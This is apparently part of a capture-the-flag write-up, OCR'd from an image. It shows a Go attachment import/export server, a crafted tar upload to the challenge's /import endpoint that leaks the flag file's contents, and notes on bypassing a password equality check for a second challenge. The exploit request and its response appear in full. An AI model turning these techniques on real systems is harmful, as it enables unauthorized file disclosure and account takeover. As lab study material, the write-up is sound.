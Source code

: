 ```go
			continue
		}

		// Write the new file.
		os.WriteFile(attachmentPath, trContents, 0660)
	}
}

// Handler for the import/export attachments endpoints
func main() {
	http.HandleFunc("/", printRequest)
	http.HandleFunc("/export", exportAttachment)
	http.HandleFunc("/import", importAttachments)

	fmt.Printf("listening on %v\n", addr)
	http.ListenAndServe(addr, nil)
}

```

```
touch flag
tar czvf flag.tar.gz flag
```

```
❯ http --form POST http://path-less-traversed-web.h4ck.ctfcompetition.com/import\?submission\=./\&dryRun\=1\&debug\=1 attachments@flag.tar.gz --proxy=http:http://127.0.0.1:8080 --verify=no
HTTP/1.1 200 OK
Connection: close
Content-Length: 212
Content-Type: text/plain; charset=utf-8
Date: Sat, 08 Oct 2022 22:23:27 GMT
Via: 1.1 google

WARNING: file flag already exists and would get overwritten (enable debug to see differences)
showing existing and new contents:
=====
< https://h4ck1ng.google/solve/TakingThePathLessTraversed
<
-----
>
=====
```

## Challenge 02 - Attachments Project

> You are the researcher. Follow the hints, find a vulnerability in the platform.

> Hint: Try logging in as tin

-> Running the app
-> The safeEqual check that int from 0 to 28 are at the same index for both password
-> Solution making sure that the digest does not contain any (on average need to reset the password 85 times)
-> Find an ascii password that respect the same constraint
